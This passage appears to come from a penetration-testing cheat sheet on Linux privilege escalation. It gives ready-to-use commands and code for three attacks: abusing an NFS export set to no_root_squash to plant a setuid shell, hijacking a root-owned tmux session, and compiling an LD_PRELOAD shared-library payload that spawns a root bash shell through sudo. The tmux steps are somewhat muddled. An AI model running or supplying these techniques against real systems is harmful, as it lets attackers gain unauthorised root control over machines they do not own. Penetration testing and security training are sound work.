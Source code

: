 > Vulnerable to this attack `*(rw,no_root_squash)`

```
# Check mount
showmount -e $TARGET_IP
# Mount share
sudo mount -t nfs $TARGET_IP:/$SHARE_NAME$ /mnt
# Copy shell to the mounted share
cp shell /mnt
# Set setuid bit
chmod u+s /mnt/shell
```

## Hijacking Tmux Sessions

- A user may leave a tmux process running as a privileged user, such as root set up with weak permissions, and can be hijacked.
- This may be done with the following commands to create a new shared session and modify the ownership.

```shell
tmux -S /$SOCKET_NAME new -s hijacked_session
tmux -S /shareds new -s debugsess
chown root:devs /shareds

# Attach to the tmux session and confirm root privileges.
tmux -S /shareds
```

> Below attacks when you have a setuid binary or sudo right to run a binary.

## Shared Libraries

- We can utilize the LD_PRELOAD environment variable to escalate privileges. For this, we need a user with sudo privileges.
- If we can restart a service or run a binary with root privileges we can exploit it.

```cpp
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

- Compile it and get root.

```shell
# Compiling the payload
gcc -fPIC -shared -o payload.so payload.c -nostartfiles

# Exploiting payload
# eg: sudo LD_PRELOAD=payload.so /usr/sbin/apache2 restart
sudo LD_PRELOAD=payload.so $COMMAND
```
